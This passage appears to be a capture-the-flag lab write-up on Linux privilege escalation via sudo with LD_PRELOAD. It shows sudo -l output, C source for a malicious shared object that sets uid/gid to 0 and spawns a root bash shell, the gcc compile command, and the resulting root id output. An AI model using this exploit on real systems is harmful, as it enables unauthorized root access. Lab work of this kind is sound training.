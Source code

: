 ![image](https://github.com/user-attachments/assets/cbd147c0-056b-4a19-9316-5c110868733f)

<br>

<h2>Task 10 . Privilege Escalation - Sudo (LD_PRELOAD)</h2>

<h3 align="left">Answer the question below</h3>

> 10.1. <em>Click 'Completed' once you have successfully elevated the machine</em><br><a id='10.1'></a>
>> <strong><code>No answer needed</code></strong><br>

```bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

![image](https://github.com/user-attachments/assets/3eff2a3a-0694-4ce4-a734-85fec44d8455)


```bash
TCM@debian:~$ cat x.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
TCM@debian:~$ gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 
```

<br>

<h2>Task 11 . Privilege Escalation - SUID (Shared Object Injection)</h2>
